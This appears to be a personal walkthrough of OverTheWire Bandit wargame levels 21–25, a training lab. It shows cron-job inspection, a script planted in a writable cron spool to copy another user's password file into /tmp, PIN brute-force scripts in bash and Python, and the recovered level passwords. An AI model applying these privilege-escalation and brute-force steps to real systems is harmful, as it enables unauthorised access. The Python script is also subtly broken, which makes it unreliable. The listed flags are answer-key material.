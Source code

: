 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## [Bash script](https://www.shellcheck.net/)
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 
```python
import socket
pincode = 2000
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 30002))
msg=s.recv(2048)
print(msg)
while pincode < 10000:
	pincode = str(pincode).rjust(4,"0")
        message=password+' '+pincode+"\n"
        s.sendall(message.encode())
        receive = s.recv(1024)
        if "Try again" in str(receive):
            print(pincode)
            pincode = int(pincode)+1
        else:
            print(pincode)
            print(receive)
            sys.exit("exit")


```
flag:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG





5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z  














